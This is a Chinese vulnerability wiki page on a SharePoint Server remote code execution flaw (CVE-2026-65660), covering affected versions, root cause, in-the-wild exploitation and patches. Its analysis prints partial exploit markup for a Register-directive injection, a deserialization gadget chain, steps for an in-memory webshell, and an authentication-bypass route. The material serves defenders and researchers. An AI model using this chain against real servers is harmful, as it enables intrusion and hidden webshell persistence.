

# （CVE-2026-65660）Microsoft SharePoint Server代码注入远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 参考一手MSRC/Viettel齐全但补库批不应替代原始来源字段
- CISA KEV日期/期限及BOD26-04需直接核JSON与指令，不能仅多站声称
- 认证PR:L与旧匿名路径及后续WebService替代需拆明确补丁条件
- markup含省略号和Payload是概念片段非完整可运行PoC
- 52194根本不存在的绝对断言应附核验时点证据或移除
- KB版本矩阵待官方核

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Microsoft SharePoint Server 代码注入漏洞（CWE-94），CVSS 3.1
**8.8**。微软最初将其定为中等严重程度的欺骗（spoofing）漏洞，后修正
评估为远程代码执行。

Viettel Security 研究员向微软报告该漏洞，并于 2026-09-22
公开技术细节；微软于 2026-09-25
确认已掌握可靠的在野利用证据，CISA 同日将其加入 KEV
目录（联邦机构修复期限 2026-09-28）。威胁情报平台 Previdian
于 9 月 24 日观测到利用尝试，9 月 25 日观测到种植 webshell
后门的尝试。

需要说明的是，上个月被某 PoC 聚合仓库冒充过的"SharePoint
RCE"（CVE-2026-52194）经核验根本不存在；**这一个是真实的**，
MSRC、NVD、CISA KEV、SecurityWeek、Previdian 多方交叉确认。

二、漏洞影响
------------

-   产品：Microsoft SharePoint Server 2016 / 2019 /
    Subscription Edition（本地部署；SharePoint Online 不在影响列表）
-   受影响版本：
    -   2016：16.0.0 至 < 16.0.5565.1001
    -   2019：16.0.0 至 < 16.0.10417.20198
    -   SE：16.0.0 至 < 16.0.19725.20522
-   利用条件：需低权限认证账户（PR:L）；研究员指出在某些默认匿名
    WebPart 配置下攻击面接近预认证可达
-   注：Viettel 研究员称 2013 同样受影响，但 MSRC 公告仅列出
    2016/2019/SE；2013 已于 2023-04 停止支持、无补丁，只能隔离或迁移

三、复现过程
------------

### 漏洞分析

以下按 Viettel Security 研究员原文（khoadha，2026-09-22 发表）的技术细节忠实整理：

**根因：Register 指令引号注入，绕过 EditingPageParser 类型检查。**
`ToolPane.GetPartPreviewAndPropertiesFromMarkup()` 先用 `ServerElementMarkupSource` 把 WebPart markup 拆成 Register markup 与 Tag markup 两部分：Register 部分经 `ToolPane.ParseRegisterDirectives()` 处理，随后与 Tag markup 拼接，再用 `TemplateParser` 解析控件。`EditingPageParser.VerifyControlOnSafeList()` 会先拿已注册的 typename 校验 Tag markup，再逐个校验处理后的 Register markup 字符串——问题出在拼接环节：`Microsoft.Web.Design.RegisterDirective.GetHtml()` 把属性值原样包在双引号里写出，**不做任何检查**，而属性值本身可以包含双引号 `"` 与单引号 `'`。攻击者向属性值注入 `"` 即可控制拼接后的 Register markup（原文类比为 SQL 注入）。

原文给出的注入示例（经 `Src` 属性的单引号拆分）：

```text
<%@ Register Tagprefix="asdf" tagname="test" Src='/_controltemplates/15/AclEditor.ascx" %> <%@ Register Tagprefix="publishingribbon" Namespace="System.Web.UI.WebControls" Assembly="System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" %> <%-- ' %>
```

校验通过后，与 Tag 部分拼接得到：

```text
<%@ Register Tagprefix="asdf" tagname="test" Src="/_controltemplates/15/AclEditor.ascx" %> <%@ Register ignoreParentFrozen=' " %>< Update Tagprefix="" /> asdf '  Tagprefix="publishingribbon" Namespace="some dangerous namespace" %>
```

其中 `< Update Tagprefix="" />` 是为满足 `ServerElementMarkupSource.TagParser`（首个 tag 必须有合法 tag 名与属性）；`ignoreParentFrozen` 属性在 Designer 下会被 `TemplateParser.ProcessAttributes()` 直接跳过，不会导致指令解析失败；`publishingribbon` 前缀由 `EditingPageParser.InitializeRegisterTable()` 在校验时自动加入、解析时并不存在，因而可被利用。至此攻击者可在类型检查**之后**、控件解析**之前**注册任意危险命名空间。

**RCE：ExpandedWrapper + XamlServices.Parse + ObjectDataProvider + LosFormatter。**
因 `DocumentDesigner` 会再次检查所创建控件是否为安全控件，可用的 gadget 限于 get/set 或静态 parse 函数。原文选用 `XamlServices.Parse()`，用著名的 `ExpandedWrapper` 泛型包装器包裹（`Namespace` 属性写完整程序集名、省略 `Assembly` 即可实例化泛型）。最终 markup 形如（`{Payload}` 替换为 LosFormatter 序列化载荷）：

```text
<%@ Register Tagprefix="test" Namespace="System.Windows.Data" Assembly="PresentationFramework,Version=4.0.0.0,Culture=neutral,PublicKeyToken=31bf3856ad364e35" %>
<%@ Register Tagprefix="asdf" tagname="test" Src='/_controltemplates/15/AclEditor.ascx" %>&gt; &lt;%@ Register ignoreParentFrozen=&apos; ' %>
< Update Tagprefix="" /> asdf ' Tagprefix="publishingribbon" Namespace="System.Data.Services.Internal.ExpandedWrapper`2[[System.Xaml.XamlServices,...],[System.Windows.Data.ObjectDataProvider,...]],System.Data.Services,..." %>
<asp:UpdateProgress ID="Update" DisplayAfter="10" runat="server">
<ProgressTemplate>
<publishingribbon:MobilePanel ExpandedElement="&lt;ObjectDataProvider ... ObjectType='{x:Type wui:LosFormatter}'&gt; &lt;ObjectDataProvider.MethodParameters&gt; &lt;sys:String&gt;{Payload}&lt;/sys:String&gt; &lt;/ObjectDataProvider.MethodParameters&gt; &lt;ObjectDataProvider.MethodName&gt;Deserialize&lt;/ObjectDataProvider.MethodName&gt; &lt;/ObjectDataProvider&gt;" runat="Server">
</publishingribbon:MobilePanel>
</ProgressTemplate>
</asp:UpdateProgress>
```

**内存马（In-memory webshell）。** `PresentationFramework` 的 `XamlReader.Parse()` 会因 `EventTrace` 类的注册表权限失败，而 `XamlServices.Parse()` 不用 `EventTrace`；先加载 `PresentationFramework` 程序集使 `XamlXmlReader` 能映射 `ObjectDataProvider` 的 xmlns。原文 payload 取自 ysoserial：把 `ActivitySurrogateDisableTypeCheckGenerator` 的 xaml_payload 复制进 `ExpandedElement`，再用 `ActivitySurrogateSelectorGenerator` 以 LosFormatter 格式生成 `{Payload}`，即得内存 webshell——不落盘，驻留在 SharePoint worker 进程内。

**预认证链（ToolPane 认证绕过）。** `ToolPanePage.OnInit` 有 `SPUtility.EnsureAuthentication()` 检查，但 `ToolPane` 控件不只出现在 `ToolPanePage`：`WebPartPage.OnInit` → `ToolPaneCreationAndInitialization` → `CreateToolPane` 会在**任何继承 WebPartPage 且带有 WebPartZone 的页面**上创建 `ToolPane`。向这类页面（原文内存马截图中的请求打的是 `AddGallery.aspx`，而非 `ToolPane.aspx`）POST ToolPane 载荷即可跳过认证检查。前提是服务器允许匿名访问页面——公网发布站点的标准配置。研究员指出 2026-06-09 补丁已修复该匿名路径（对应哪个 CVE 未知）；打了 2026-07-14 补丁的服务器可用 `WebPartPagesWebService` 的 `GetWebPartPageConnectionInfo`（同样在 Design 下解析模板）替代。

### PoC（来源：原始研究员 Viettel VCSLab 公开技术文章，仅限授权测试）

https://blog.viettelcybersecurity.com/sharepoint_cve-2026-65660/

文章含完整 exploit markup（WebPart 注册指令注入载荷）与内存马
payload 说明；在自有实验环境按文章步骤复现即可验证。**公开渠道
暂无开箱即用的脚本化 exploit**，以研究员原文为准，不脑补。

原文"In-memory webshell"一节附带的攻击流量示意图（已吸纳归档）：



四、修复建议
------------

1.  安装微软 2026-08-11 安全更新并按 MSRC FAQ
    装全所有适用包（据 MSRC 公告与 thecyberexpress 引用的官方 FAQ 核验）：
    SE 用 KB5002893（build 16.0.19725.20522）、2019 用 KB5002894（+ KB5002896，
    build 16.0.10417.20198）、2016 用 KB5002905（+ KB5002906，
    build 16.0.5565.1001）；微软建议把适用更新全部装上、不分顺序；
    自 2026-08-11 补丁起 `ToolPane.GetPartPreviewAndPropertiesFromMarkup()`
    默认被禁用；
2.  确认已安装 2026-06-09 更新（该更新关闭了匿名投递路径）；
3.  互联网暴露的场按 BOD 26-04
    做取证排查——在野已出现 webshell 种植行为，未打补丁不等于未被入侵；
4.  临时缓解：收紧 SharePoint 低权限账户的过度授权，WAF
    拦截异常的 ToolPane / WebPart 注册请求。

### 附录

参考链接：

-   MSRC 公告：https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-65660
-   NVD：https://nvd.nist.gov/vuln/detail/CVE-2026-65660
-   CISA KEV：https://www.cisa.gov/known-exploited-vulnerabilities-catalog
-   原始研究员技术细节：https://blog.viettelcybersecurity.com/sharepoint_cve-2026-65660/
-   SecurityWeek 报道：https://www.securityweek.com/microsoft-sharepoint-flaw-cve-2026-65660-now-exploited-in-attacks/
-   Previdian 在野观测：https://previdian.com/CVE-2026-65660
